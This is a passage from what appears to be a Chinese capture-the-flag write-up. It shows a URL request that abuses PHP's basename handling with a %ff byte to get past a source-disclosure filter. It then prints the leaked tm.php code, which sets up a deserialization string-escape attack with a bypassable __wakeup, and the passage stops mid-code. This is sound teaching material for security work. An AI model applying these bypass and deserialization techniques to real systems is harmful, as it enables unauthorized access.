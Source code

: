 ```php
    exit();
}
?> 
<a href="index.php?source">source</a>
```

然后使用上面说的`basename`函数处理特点绕过过滤拿到`tm.php`源码

```http
http://172.51.60.211/index.php/tm.php/%ff?source
```

![image-20221105204641326](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-474abb0b928729016f25797512afa4532817d9e2.png)

```php
 <?php
class UserAccount
{
    protected $username;
    protected $password;

    public function __construct($username, $password)
    {
        $this->username = $username;
        $this->password = $password;
    }
}

function object_sleep($str)
{
    $ob = str_replace(chr(0).'*'.chr(0), '@0@0@0@', $str);
    return $ob;
}

function object_weakup($ob)
{
    $r = str_replace('@0@0@0@', chr(0).'*'.chr(0), $ob);
    return $r;
}

class order
{
    public $f;
    public $hint;

    public function __construct($hint, $f)
    {
        $this->f = $f;
        $this->hint = $hint;
    }

    public function __wakeup()
    {
        //something in hint.php
        if ($this->hint != "pass" || $this->f != "pass") {
            $this->hint = "pass";
            $this->f = "pass";
        }
    }

    public function __destruct()
    {
        if (filter_var($this->hint, FILTER_VALIDATE_URL))
        {
            $r = parse_url($this->hint);
```